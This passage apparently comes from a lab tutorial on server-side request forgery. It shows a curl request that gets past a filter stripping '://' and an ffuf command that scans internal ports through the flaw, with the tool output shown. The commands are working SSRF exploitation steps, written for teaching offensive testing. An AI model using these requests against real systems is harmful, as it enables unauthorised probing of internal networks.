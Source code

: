 We have received an `unknown url type` error message. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL.

**cURL - Interacting with the Target**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>
```

In this case, the web application returns some HTML rendered content containing the resource we are trying to fetch. This response will affect our internal service discovery if we use the size of the response as a filter as it will change depending on the port. Fortunately for us, ffuf supports regular expressions for filtering. We can use this ffuf feature to use the error number for filtering responses, as follows.

**Port Fuzzing**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Errno[[:blank:]]111
________________________________________________

80                      [Status: 200, Size: 153, Words: 5, Lines: 6]
5000                    [Status: 200, Size: 123, Words: 3, Lines: 5]
:: Progress: [65535/65535] :: Job [1/1] :: 249 req/sec :: Duration: [0:04:06] :: Errors: 0 ::
```

